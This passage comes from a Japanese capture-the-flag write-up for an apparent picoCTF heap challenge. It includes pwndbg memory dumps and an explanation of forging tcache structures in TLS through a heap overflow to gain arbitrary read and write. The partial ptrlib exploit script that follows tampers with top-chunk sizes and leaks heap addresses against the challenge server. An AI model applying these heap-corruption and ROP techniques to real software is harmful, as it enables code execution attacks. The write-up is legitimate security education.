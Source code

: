 ```bash
46d6:236b0│    0x7ffff7d906b0 —▸ 0x7ffff7fad580 —▸ 0x7ffff7fa9820 —▸ 0x7ffff7f6d1d7 ◂— 0x636d656d5f5f0043 /* 'C' */
46d7:236b8│    0x7ffff7d906b8 —▸ 0x7ffff7fb5340 (_res) ◂— 0x0
46d8:236c0│    0x7ffff7d906c0 ◂— 0x0
46d9:236c8│    0x7ffff7d906c8 —▸ 0x7ffff7f514c0 ◂— 0x100000000
46da:236d0│    0x7ffff7d906d0 —▸ 0x7ffff7f51ac0 ◂— 0x100000000
46db:236d8│    0x7ffff7d906d8 —▸ 0x7ffff7f523c0 ◂— 0x2000200020002
46dc:236e0│    0x7ffff7d906e0 ◂— 0x0
... ↓       2 skipped
46df:236f8│    0x7ffff7d906f8 —▸ 0x55555555a010 ◂— 0x1
~~~
pwndbg> x/32xg 0x55555555a010
0x55555555a010: 0x0000000000000001      0x0000000000000000
0x55555555a020: 0x0000000000000000      0x0000000000000000
0x55555555a030: 0x0000000000000000      0x0000000000000000
0x55555555a040: 0x0000000000000000      0x0000000000000000
0x55555555a050: 0x0000000000000000      0x0000000000000000
0x55555555a060: 0x0000000000000000      0x0000000000000000
0x55555555a070: 0x0000000000000000      0x0000000000000000
0x55555555a080: 0x0000000000000000      0x0000000000000000
0x55555555a090: 0x000055555555afd0      0x0000000000000000
~~~
```
TLSのリンク先から、`tcachebins`の個数とリンク先がヒープ上で管理されている。  
この構造を偽装して`malloc`すれば、任意の個所を`tcachebins`と誤認させて確保できそうだ。  
幸いなことに膨大な数を`malloc`した際の領域から、そのままオーバーフローでTLSに書き込める。  
また、膨大な数を`malloc`することは複数回繰り返せる。  
`PKT_OPT_PING`でデータを書き込め、`PKT_OPT_ECHO`でデータを出力できるので実質的にAAR、AAWが可能となった。  
あとは以下の流れを上記テクニックを複数回用いて行うだけである。  

1. ヒープ上にlibcのアドレスを乗せてAARで読み取る  
2. libc上のスタックアドレスをAARで読み取る
3. スタックアドレスからリターンアドレスを計算しAAWでROPを書き込む

注意点としては`malloc`した領域にサイズ情報も書き込まれるため、指定したアドレスから8バイトずれる。  
また、オプションの指定も必要なので、さらに8バイトずれた個所から書き込めると思っておくとよい。  
libcアドレスのリークでは、AARの際にサイズ情報とオプションで値が壊れるので`unsortedbin`からリークすると落ちる。  
そのため、`largebins`をに二つ繋いで後ろのチャンクを読み取る。  
リンクの整合性確認は不明だが、これ以降は`smallbins`でやり取りすれば問題ない。  
以下のexploit.pyで行う。  
```python
from ptrlib import *

elf = ELF("./hft")
libc = ELF("./libc.so.6")
# libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

sock = Socket("nc tethys.picoctf.net 50123")
# sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0xD28))
sock.sendline(p64(0x0) + b"A" * 0xD18 + p32(0x41))  # tamper the size of top chunk

# _int_free: tcachebins[0x20]
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x0) + b"B" * 0xBA8 + p32(0x441))  # tamper the size of top chunk

# _int_free: unsortedbin
sock.sendafter(":[PKT_RES]\n", p64(0x419))
sock.sendline(p64(0x3)[:-1])

# heap base address leak
sock.sendafter(":[PKT_RES]\n", p64(0x19))
sock.sendline(p64(0x1)[:-1])
```